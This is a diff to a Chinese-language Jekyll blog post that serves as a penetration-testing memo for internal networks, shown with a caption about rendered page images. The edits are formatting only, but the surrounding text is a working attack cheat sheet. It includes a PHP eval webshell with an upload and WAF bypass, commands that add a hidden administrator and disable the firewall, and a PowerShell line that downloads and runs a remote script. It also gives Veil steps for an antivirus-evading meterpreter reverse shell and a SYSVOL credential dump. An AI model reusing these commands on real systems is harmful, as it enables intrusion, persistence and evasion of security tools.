

Before and after one commit to muuqiu/tom0li.github.io, a Jekyll site: the page built from _posts/2018-5-28-内网备忘录.md, in a window 1280 px wide and 1400 px high, scrolled down 3023 px. Shown: the whole window, without its empty margins (248-1034 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

````diff
--- a/_posts/2018-5-28-内网备忘录.md
+++ b/_posts/2018-5-28-内网备忘录.md
@@ -10,9 +10,8 @@ toc: true
 Webshell:
 > 测试主站，搜wooyun历史洞未发现历史洞，github,svn,目录扫描未发现敏感信息,无域传送，端口只开了80端口，找到后台地址，想爆破后台，验证码后台验证，一次性，用ocr识别，找账号，通过google，baidu，bing等搜索，相关邮箱，域名等加常用密码组成字典，发现用户手册，找账号，发现未打码信息，和默认密码，试下登陆成功，找后台，上传有dog，用含有一句话的txt文件```<?php eval($_POST['cmd']);?>```，打包为zip，php文件```<?php include 'phar://1.zip/1.txt';?>```即可，c刀被拦，修改config.ini文件，php_make ```@eval(call_user_func_array(base64_decode,array($_POST[action])));```用回调函数，第一个为函数名，二个为传的参数.
 
-------
-
-### 前期收集
+## 前期收集
+---
 
 	query user || qwinsta 查看当前在线用户
 	net user  查看本机用户
@@ -87,6 +94,7 @@ Webshell:
 #### 添加user
 
 ```net user admin1 admin1 /add & net localgroup administrators admin1 /add```
+
 如不允许远程连接，修改注册表
 ```
 REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
@@ -94,9 +102,10 @@ REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Win
 ```
 如果系统未配置过远程桌面服务，第一次开启时还需要添加防火墙规则，允许3389端口，命令如下:
 ```netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow  ```
+
 关闭防火墙
 ```netsh firewall set opmode mode=disable  ```
-[3389user无法添加]http://www.91ri.org/5866.html
+[3389user无法添加](http://www.91ri.org/5866.html)
 
 ##### 隐藏win账户
 开启sys权限cmd
@@ -105,12 +114,14 @@ REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Win
 add user 并隐藏
 
 	IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/3gstudent/Windows-User-Clone/master/Windows-User-Clone.ps1')
+
 win server有密码强度要求，改为更复杂密码即可
 
-    [渗透技巧——Windows系统的帐户隐藏](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E7%B3%BB%E7%BB%9F%E7%9A%84%E5%B8%90%E6%88%B7%E9%9A%90%E8%97%8F/)
-    [windows的RDP连接记录](http://rcoil.me/2018/05/%E5%85%B3%E4%BA%8Ewindows%E7%9A%84RDP%E8%BF%9E%E6%8E%A5%E8%AE%B0%E5%BD%95/)
+[渗透技巧——Windows系统的帐户隐藏](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E7%B3%BB%E7%BB%9F%E7%9A%84%E5%B8%90%E6%88%B7%E9%9A%90%E8%97%8F/)
+[windows的RDP连接记录](http://rcoil.me/2018/05/%E5%85%B3%E4%BA%8Ewindows%E7%9A%84RDP%E8%BF%9E%E6%8E%A5%E8%AE%B0%E5%BD%95/)
 
 ---
+
 ## 反弹，转发
 
 ###  linux bash
@@ -128,22 +139,24 @@ win server有密码强度要求，改为更复杂密码即可
 
 #### ngrok-backdoor
 
-	Grok-backdoor是一个简单的基于python的后门，它使用Ngrok隧道进行通信。Ngrok后门可以使用Pyinstaller生成windows，linux和mac二进制文件.
-	虽然免杀，但如果开win防火墙会提示，生成后门时会询问是否捆绑ngrok，选择no时，在被攻击机执行时需联网下载ngrok，运行后，telnet连接即可.
+Grok-backdoor是一个简单的基于python的后门，它使用Ngrok隧道进行通信。Ngrok后门可以使用Pyinstaller生成windows，linux和mac二进制文件.
+虽然免杀，但如果开win防火墙会提示，生成后门时会询问是否捆绑ngrok，选择no时，在被攻击机执行时需联网下载ngrok，运行后，telnet连接即可.
 github  https://github.com/deepzec/Grok-backdoor
 
 #### veil
 这里，安装问题有点多，我用kali-2018-32安装成功，先安装下列依赖，后按照官方即可。
-
-	  apt-get install libncurses5*
-	  apt-get install libavutil55*
-	  apt-get install gcc-mingw-w64*
-	  apt-get install wine32
+```
+apt-get install libncurses5*
+apt-get install libavutil55*
+apt-get install gcc-mingw-w64*
+apt-get install wine32
+```
 生成shell
 
 	./Veil.py
 	use 1
 	use c/meterpreter/rev_tcp
+
 在win gcc -o v.exe v.c -lws2_32 用mingw下gcc编译bypass 360
 msfconsole -r veil.rc (其中veil.rc是之前生成的，bypass)
 
@@ -827,6 +840,7 @@ win2008增加，一般域用户都可访问敏感文件
 	Printers\Printers.xml,
 	Drives\Drives.xml,
 	DataSources\DataSources.xml
+
 ```
 net use \\域控(如pc.xx.com) password /user:xxx.com\username
 dir \\域控\SYSVOL /s /a > sysvol.txt
````
Also changed, not shown: other parts of _posts/2018-5-28-内网备忘录.md (+16 -8 lines).
